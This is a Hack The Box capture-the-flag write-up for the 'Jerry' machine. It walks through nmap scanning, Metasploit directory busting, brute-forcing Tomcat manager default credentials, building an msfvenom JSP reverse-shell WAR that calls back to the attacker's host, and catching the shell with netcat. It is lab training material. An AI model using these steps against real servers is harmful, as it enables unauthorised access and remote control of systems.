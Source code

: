 ```yaml
---
title: HTB - Jerry
date: 2023-12-01
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, http, apache-tomcat, dir-busting, credential-enumeration, default-credentials, metasploit, msfvenom, webshell]
img_path: /assets/htb/fullpwn/jerry/
published: true
image:
    path: machine_banner.png
---
```


## Overview

|:-:|:-:|
|Machine|[Jerry](https://app.hackthebox.com/machines/144)|
|Rank|Easy|
|Time|1h48min|
|Focus|Default credentials, webshells|

## 1. Information Gathering

```shell
# sending ICMP requests to target
ping jerry
PING jerry (10.10.10.95) 56(84) bytes of data.
64 bytes from jerry (10.10.10.95): icmp_seq=1 ttl=127 time=28.1 ms
64 bytes from jerry (10.10.10.95): icmp_seq=2 ttl=127 time=24.1 ms
64 bytes from jerry (10.10.10.95): icmp_seq=3 ttl=127 time=25.6 ms
64 bytes from jerry (10.10.10.95): icmp_seq=4 ttl=127 time=23.9 ms
```

Host is alive and based on `ttl=127` it is a Windows machine.

```shell
# port scanning with nmap
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 jerry

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%)
```

## 2. Initial Foothold

```shell
# dir-busting with msf
msfconsole -q
msf6 > use auxiliary/scanner/http/dir_scanner
msf6 auxiliary(scanner/http/dir_scanner) > run

[*] Detecting error code
[*] Using code '404' as not found for 10.10.10.95
[+] Found http://10.10.10.95:8080/[SecCheck]/ 400 (10.10.10.95)
[+] Found http://10.10.10.95:8080/docs/ 200 (10.10.10.95)
[+] Found http://10.10.10.95:8080/examples/ 200 (10.10.10.95)
[+] Found http://10.10.10.95:8080/manager/ 302 (10.10.10.95)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> Hacktricks: [Default Credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#username-enum)

```shell
# enumerating login credentials with msf
msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
...
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
```

Credentials can be also found this way:

<figure>
    <img src="default_creds.jpg"
    alt="Default credentials" >
</figure>

We are now logged in and can see a lot of extra information:

<figure>
    <img src="logged_in_default_creds.png"
    alt="Successfully logged in with default credentials" >
</figure>

<figure>
    <img src="server_details.png"
    alt="Tomcat version information" >
</figure>

> Hacktricks: [MSFVenom Reverse Shell](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell)
> _The `java/shell_reverse_tcp` payload did not work, but `jsp_shell_reverse_tcp` did._

```shell
# crafting the payload with msfvenom
sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=4444 -f war -o revshell.war
Payload size: 1096 bytes
Final size of war file: 1096 bytes
```

```shell
# receiving the reverse shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

> Both `user.txt` and `root.txt` are available without lateral pivoting or privesc.

<figure>
    <img src="jerry_pwned.png"
    alt="Machine pwned" >
</figure>
